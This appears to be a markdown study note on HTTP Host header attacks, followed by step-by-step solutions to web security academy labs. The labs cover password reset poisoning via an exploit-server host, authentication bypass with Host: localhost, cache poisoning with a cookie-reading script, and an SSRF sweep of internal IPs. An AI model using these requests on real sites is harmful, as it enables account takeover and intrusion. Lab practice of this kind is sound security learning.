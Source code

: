 # HTTP Host header attacks

## 🔹 What is the HTTP Host header?
- When you type a website like https://example.com into your browser, your browser sends a request to the server.   - But here’s the thing:
     - Many websites share the same IP address (like apartments in a single building).
     - The Host header in HTTP is basically the part of the request that says “Hey server, I want the website example.com, not the other sites living on the same IP.”
     - 👉 Example:
     ```bash 
     GET /index.html HTTP/1.1
     Host: example.com
    ```
    - This tells the server, “Please give me the homepage of example.com.”

## 🔹 What is the purpose of the HTTP Host header?
- Its main purpose is virtual hosting.
- Since multiple websites can run on one server (same IP), the Host header makes sure the server knows which website you actually want.
- Without it, the server would be confused about which site’s content to send you.
- 👉 Think of it like telling a receptionist in a big office building “I’m here to see the Marketing Department (Host: example.com)” instead of just walking in blindly.

## 🔹 How does the Host header solve this problem?
- Imagine one IP = one big apartment building.
- Each flat = one website.
- When you arrive, you must tell the guard which flat (website) you’re visiting.
- That’s exactly what the Host header does — it guides the server to the right “flat” (site) inside a shared “building” (IP).

## 🔹 What is an HTTP Host header attack?
- Here’s where things get interesting 😈.
- If the application trusts the Host header too much, an attacker can tamper with it to trick the website into doing dangerous things.
- 👉 Example attack:
    ```
    GET /reset-password HTTP/1.1
    Host: attacker.com
    ```
- If the site uses the Host header to build password reset links, the victim might receive a link like: http://attacker.com/reset?token=12345
- 😱 Now the victim thinks it’s safe, but the attacker gets the reset link on their domain!

## 🔹 How do Host header vulnerabilities arise?
- They happen when developers don’t validate the Host header properly and just trust it blindly.
- Some risky places:
    - Password reset links (in emails)
    - Absolute URLs in redirects
    - Caching mechanisms
    - Security filters / firewalls
- If the Host header is manipulated, it can:
    - Point users to malicious sites
    - Poison caches (cache poisoning)
    - Bypass security checks
##  🔹 Exploiting Host header vulnerabilities
- Attackers can use this in different ways:
  1. Password reset poisoning – Hijacking reset links sent to users.
  2. Web cache poisoning – Serving malicious content to many users by tricking the cache.
  3. SSRF (Server-Side Request Forgery) – Forcing the server to make requests to internal systems.
  4. Bypassing access controls – If the app checks “Host” to allow/deny requests, attackers can fake it.

### ✅ In Simple words:

Host header = the “address label” telling the server which website you want.
Purpose = makes shared hosting possible.
Problem solved = without it, servers wouldn’t know which site to show.
Attack = bad guys forge this label to trick the website.
Vulnerability cause = developers trusting user input (Host header) without checking.
Exploitation = password reset hijack, cache poisoning, SSRF, phishing-style tricks.



# 📜 LABS

## Lab: Basic password reset poisoning

- Basic Password Reset Poisoning – Short Solution:
- Forgot Password (your account) → get email → reset password.
- In Burp, find POST /forgot-password, send to Repeater.
- Change Host to random → see email with random host → works.
- In Repeater, set:
    ```bash
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    username=carlos
    ```
    → Send.
- Exploit server → Access log → copy Carlos’s temp-forgot-password-token.
- Open your original reset URL → replace token with Carlos’s → set new password.
- Login as carlos → Lab Solved.


## Lab: Host header authentication bypass
- Send GET / to Repeater, change Host to anything → still 200 OK.
- Visit /robots.txt → find /admin. | use **dirb/feroxbuster** to find admin page
- Request /admin → access denied (local only).
- In Repeater, set Host: localhost → access admin panel.
- Change request to:
```
GET /admin/delete?username=carlos
Host: localhost
```
- → Send → Lab Solved.

## Lab: Web cache poisoning via ambiguous requests
- Send GET / to Repeater, add cache buster /?cb=123.
- Add second Host header → reflected in /resources/js/tracking.js.
- Create /resources/js/tracking.js on exploit server with:
    ```js
    alert(document.cookie)
    ```
- In Repeater, send:
    ```http
    GET / HTTP/1.1
    Host: LAB-ID.web-security-academy.net
    Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```
- Repeat until cached with your payload.
- Open cached page in browser 
  → alert() fires → Lab Solved.

## Lab: Routing-based SSRF
- Send GET / to Repeater, replace Host with Collaborator payload → send → confirm DNS hit in Collaborator.
- Send GET / to Intruder, set:
 ```http
Host: 192.168.0.§0§
 ```
- Payload: Numbers 0–255, uncheck Update Host header to match target → start attack.
- Find 302 redirect to /admin, send to Repeater, request /admin → get admin panel.
- Copy CSRF token + session cookie from /admin.
- Craft:
 ```http
    POST /admin/delete?csrf=<TOKEN>&username=carlos
    Cookie: <session-cookie>
 ```
- → send → Lab Solved.
